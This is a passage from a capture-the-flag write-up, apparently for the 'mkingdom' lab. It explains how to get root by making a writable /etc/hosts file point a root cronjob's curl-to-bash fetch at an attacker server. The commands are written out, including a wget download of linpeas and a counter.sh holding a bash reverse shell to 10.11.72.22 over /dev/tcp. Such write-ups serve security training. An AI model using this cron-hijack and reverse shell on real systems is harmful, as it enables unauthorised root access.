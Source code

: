It fetches the script at `http://mkingdom.thm:85/app/castle/application/counter.sh` using `curl`, runs it by piping it to `bash`, and appends the output of it to the `/var/log/up.log` file.

Unfortunately, we are not able to overwrite or replace the `counter.sh` script at `/var/www/html/app/castle/application/counter.sh`.

### Abusing writable hosts file

Also, running `linpeas`, we discover that we are able to write to the `/etc/hosts` file.

```console
mario@mkingdom:~$ wget 10.11.72.22/linpeas.sh
...
mario@mkingdom:~$ chmod +x linpeas.sh
mario@mkingdom:~$ ./linpeas.sh
...
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group mario:
/etc/hosts
...
mario@mkingdom:~$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```

Cronjob uses the `mkingdom.thm` hostname to fetch the script to run, and currently it resolves to `127.0.1.1`.

```console
mario@mkingdom:~$ cat /etc/hosts
...
127.0.1.1       mkingdom.thm
...
```

Since we are able to write to the `/etc/hosts` file, we can make `mkingdom.thm` resolve to our IP address and thus the cronjob would fetch the script to run from our server.

First, creating a web server on port 85 to serve the `/app/castle/application/counter.sh` file.

```console
$ mkdir -p app/castle/application/
$ echo "bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'" > app/castle/application/counter.sh
$ python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
```
{: .wrap }

Modifying the `/etc/hosts` file.

```console
mario@mkingdom:~$ cat /etc/hosts
...
10.11.72.22     mkingdom.thm
...
```
